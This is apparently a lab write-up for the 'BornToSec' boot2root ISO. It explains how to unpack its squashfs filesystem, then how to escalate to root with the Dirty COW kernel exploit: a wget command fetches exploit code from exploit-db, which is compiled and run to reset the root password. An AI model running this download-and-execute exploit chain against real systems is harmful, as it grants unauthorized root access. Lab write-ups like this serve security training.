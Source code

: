 ## Unsquash

To understand the file structure of the system that we need to Hack, we are going to open given BornToSec ISO file.

In casper folder we can see filesystem.squashfs which tells us that system is compessed. It also means that we can decompress system using linux `unsquashfs` function.
You should have access as a laurie via ssh and use /tmp folder to unsqash the system file in /cdrom/casper/filesystem.squashfs


-----------------------------------------------------------------------------------------


## Privilege escalation

We can access as a lower level user and try to user exisiting explits that will provide us with root access possbily. Exploits are possible for some versions of our system:

As we know we can execute scripts from tmp folder, only need to upload them there

There are an [existing script](https://github.com/sneakymonk3y/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh) that we are going to use which named [dirtycow2](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails), it fits perfectly our system version


A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. All the information we have so far is included in this page.
The bug has existed since around 2.6.22 (released in 2007) and was fixed on Oct 18, 2016.
An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system.
This flaw allows an attacker with a local system account to modify on-disk binaries, bypassing the standard permission mechanisms that would prevent modification without an appropriate permission set.


getting script `wget --no-check-certificate https://www.exploit-db.com/download/40839 -O dirty.c`

Giving 755 permissions to the dirty.c file and to compile with `gcc -pthread dirty.c -o dirty -lcrypt`

Then execute it and provide a new password for the root user, then just su root.

Done!
